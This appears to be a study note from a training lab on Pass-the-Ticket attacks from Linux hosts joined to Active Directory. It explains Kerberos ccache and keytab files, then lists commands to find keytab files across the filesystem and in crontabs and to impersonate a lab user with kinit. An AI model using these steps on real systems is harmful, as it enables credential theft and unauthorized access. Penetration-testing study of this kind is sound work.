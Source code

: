 ## Pass The Ticket (PtT) from Linux

Linux computers can connect to active directories to provide centralised identity management. 
Uses Kerberos as authentication 

### Kerberos On Linux 
Tickets stored as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in /tmp
By default stored in environmental variable KRB5CCNAME

Files protected by read/ write permissions

##### [Keytab Files](https://kb.iu.edu/d/aumh)
A File that contains pairs of kerberos principals and encrypted keys. 
Can authenticate many remote systems using Kerberos. 

Commonly allow scripts to authenticate automatically without human interaction. 

#### Attack
Check if Linux machine is domain joined 
```shell
realm list
```
[sssd](https://sssd.io/) or [winbind](https://www.samba.org/samba/docs/current/man-html/winbindd.8.html) if realm is not installed
```shell
ps -ef | grep -i "winbind\|sssd"
```

##### Finding Kerberos tickets on Linux
Search for files wiht keytab in the name (cp )
```shell
find / -name *keytab* -ls 2>/dev/null
```
*Need read write privs*

Identify Keytab files in cronjobs
```shell
crontab -l
```
Look for [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html)
	Allows for interaction with Kerberos 
	Functions to request users TGT and store in cache (ccache)
##### Abusing #KeyTab Files 
List keytab File information 
```shell
klist -k -t 
```

Impersonate A User 
```shell
klist
```
```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
```shell-session
klist
```
